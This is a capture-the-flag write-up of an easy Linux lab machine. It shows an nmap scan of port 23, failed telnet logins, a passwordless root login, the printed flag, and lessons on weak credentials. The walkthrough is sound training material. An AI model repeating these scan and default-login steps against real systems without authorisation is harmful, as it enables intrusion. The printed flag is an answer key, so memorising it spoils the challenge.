 
## **Overview**

- **Difficulty:** Easy
- **Operating System:** Linux
- **Objective:** Capture flag via Telnet
- **Tools Used:** `nmap`, `telnet`, `openvpn`

---

## **Scanning using Nmap**

Started with a nmap scan to get information about whether telnet was running on port 23 as mentioned in the task.
```
$ sudo nmap -p23 10.129.109.246
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 17:56 IST
Nmap scan report for 10.129.109.246
Host is up (0.63s latency).

PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

And, it is!

---

## **Accessing Telnet at 10.129.109.246**

Now, let's `telnet` into said IP.
```
$ telnet 10.129.109.246
Trying 10.129.109.246...
Connected to 10.129.109.246.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: admin
Password: 

Login incorrect
Meow login: host
Password: 

Login incorrect
Meow login: 
Login timed out after 60 seconds.
Connection closed by foreign host.

...
```

I tried a bunch of usernames but nothing seemed to work.
After a little research and hint from an answer in the machine it is clear that maybe `root` as the username will do the trick. So, let's give it a shot.
```
$ telnet 10.129.109.246
Trying 10.129.109.246...
Connected to 10.129.109.246.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 02 Jan 2025 12:30:17 PM UTC

  System load:           0.01
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.109.246
  IPv6 address for eth0: dead:beef::250:56ff:fe94:c1c7

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

---
## **Flag Retrieval**

Let's start by listing the content on the target:
```
root@Meow:~# ls
flag.txt  snap
```

Next, we will `cat` the content of `flag.txt` as:
```
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

---
## **Flag**

The flag is `b40abdfe23665f766f9c61ecba8a4c19`.

---
## **Lessons Learned**

- A lot of the times, services are configured for ease of access with one username that does not have a password or some easy password. This can easily be guessed as I did or even bruteforced and automated.
- The best way to mitigate this issue is place solid standards on passwords by not only maintaining long complex password but also changing them regularly. As for ease of use, a password manager can be used to receive the password like MFA to log in or out.

---

**Prepared by Araiz Naqvi**